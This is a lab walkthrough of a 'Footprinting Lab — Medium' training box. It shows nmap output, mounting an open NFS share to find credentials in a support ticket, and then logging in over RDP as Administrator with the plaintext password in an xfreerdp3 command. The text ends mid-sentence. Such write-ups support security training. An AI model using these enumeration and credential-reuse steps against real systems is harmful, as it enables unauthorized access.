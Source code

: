 # Footprinting Lab — Medium

IP - 10.129.38.229


## Scanning & Enumeration


nmap - 
```
Discovered open port 135/tcp on 10.129.38.229
Discovered open port 139/tcp on 10.129.38.229
Discovered open port 111/tcp on 10.129.38.229
Discovered open port 3389/tcp on 10.129.38.229
Discovered open port 445/tcp on 10.129.38.229
Discovered open port 49667/tcp on 10.129.38.229
Discovered open port 49678/tcp on 10.129.38.229
Discovered open port 2049/tcp on 10.129.38.229
Discovered open port 49666/tcp on 10.129.38.229
Discovered open port 49681/tcp on 10.129.38.229
Discovered open port 47001/tcp on 10.129.38.229
```

* Ports that caught my attention are 445 (SMB), 2048 (NFS), and 3389 (RDP).

```
445/tcp  open  microsoft-ds?
2049/tcp open  mountd        1-3 (RPC #100005)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WINMEDIUM
|   NetBIOS_Domain_Name: WINMEDIUM
|   NetBIOS_Computer_Name: WINMEDIUM
|   DNS_Domain_Name: WINMEDIUM
|   DNS_Computer_Name: WINMEDIUM
|   Product_Version: 10.0.17763
|_  System_Time: 2025-06-19T23:49:51+00:00
|_ssl-date: 2025-06-19T23:50:00+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=WINMEDIUM
| Issuer: commonName=WINMEDIUM
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-06-18T21:35:20
| Not valid after:  2025-12-18T21:35:20
| MD5:   c5a6:261e:9604:1a76:5a3c:2afd:d458:a32c
|_SHA-1: bb11:731a:a500:4c76:5211:aef0:7696:c5f5:dc1b:89a3
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows 10 1709 - 21H2 (97%), Microsoft Windows Server 2019 (96%), Microsoft Windows Server 2016 (95%), Microsoft Windows 10 1903 (93%), Microsoft Windows Server 2012 (93%), Windows Server 2019 (93%), Microsoft Windows Server 2022 (93%), Microsoft Windows Vista SP1 (93%), Microsoft Windows 10 (93%), Microsoft Windows 10 21H1 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-06-19T23:49:52
|_  start_date: N/A
```


## Port 2049 (NFS) Enumeration


![image](https://github.com/user-attachments/assets/39ab7025-0c2e-469b-a65d-5fbf6b939f45)


* Found directory ```/TechSupport```
* I created a directory in my machine called "NFS" and ran this command to move /TechSupport to my machine - ```sudo mount -t nfs 10.129.38.229:/TechSupport ./NFS/ -o nolock```
* I received "cd: permission denied: NFS" so I switched to root user by running ```sudo su```
* Now I was able to review the files inside the /TechSupport but there were to many of them and going through each one would take forever so I ran ```ls -la``` to view which one has information inside

![image](https://github.com/user-attachments/assets/200f568b-b272-4341-868b-ba727ec43339)


* Inside ```ticket4238791283782.txt``` I found username and password:


![image](https://github.com/user-attachments/assets/3626fef0-a370-4925-83e4-5f12c51417e2)



## Port 3389 (RDP) Enumeration

* I used the username and password to remote in using RDP and found ```important.txt``` file.


![image](https://github.com/user-attachments/assets/b3020bf5-b192-4ef8-8ba7-400e55fcd308)


* Tried to RDP again but this time I used Administrator login credentials and added the new password that I found - ```xfreerdp3 /v:10.129.38.229 /u:Administrator /p:’87N1ns@slls83'```
* After successfully remoting in, I was able to easily access the SQL Server and look for the 


![image](https://github.com/user-attachments/assets/bd9b9cc8-157a-4ddc-b4ba-5e9fb214efd8)



![image](https://github.com/user-attachments/assets/dd6b2459-63a1-4cf9-958f-05de416a9dca)
